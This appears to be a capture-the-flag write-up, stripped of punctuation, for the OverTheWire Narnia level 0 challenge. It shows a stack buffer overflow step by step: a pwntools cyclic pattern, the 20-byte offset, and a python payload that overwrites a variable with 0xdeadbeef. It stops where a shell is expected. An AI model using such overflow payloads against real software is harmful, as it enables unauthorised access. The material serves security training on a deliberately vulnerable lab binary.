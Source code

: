 Running the program  we can see that it is asking for a certain value in the function to be changed 

   highlight bash   
narnia0 narnia  narnia    narnia0  
Correct val s value from 0x41414141    0xdeadbeef   
Here is your chance  test  
buf  test  
val  0x41414141  
WAY OFF    
   endhighlight   

Attempting to write the four letter word  test  to the buffer proves to be an inadequate length for overflowing the buffer as the value did not change 

    Buffer Overflow

We can verify that this value can be modified by attempting to flood the buffer with a long string of characters 

   highlight bash   
   0xd4y Writeup     business other overthewire narnia   
      pwn cyclic 100  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

narnia0 narnia  narnia    narnia0  
Correct val s value from 0x41414141    0xdeadbeef   
Here is your chance  aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa  
buf  aaaabaaacaaadaaaeaaafaaa  
val  0x61616166  
WAY OFF    
   endhighlight   

Observe that the value has changed from 0x41414141 to 0x61616166 confirming that there is a buffer overflow vulnerability  To calculate the offset  the  l flag can be utilized in the pwn command 

   highlight bash   
   0xd4y Writeup     business other overthewire narnia   
      pwn cyclic  l 0x61616166  
20
   endhighlight   

Seeing as the offset is 20 bytes  it is possible to input up to 20 bytes into the buffer before the value gets changed  Thus the payload will incorporate a string of 20 bytes followed by 0xdeadbeef in little endian which is xefxbexadxde  Conducting this attack reveals the following 

   highlight bash   
narnia0 narnia  narnia  python  c  print  A  20  xefxbexadxde     narnia0 Correct val s value from 0x41414141    0xdeadbeef   
Here is your chance  buf  AAAAAAAAAAAAAAAAAAAA   
val  0xdeadbeef

The attack has been successfully performed as can be seen from the overwritten value and lack of the WAY OFF     message  However  no shell was given  Analysing this program in radare2 reveals that we should be getting a  bin sh shell 
   endhighlight   
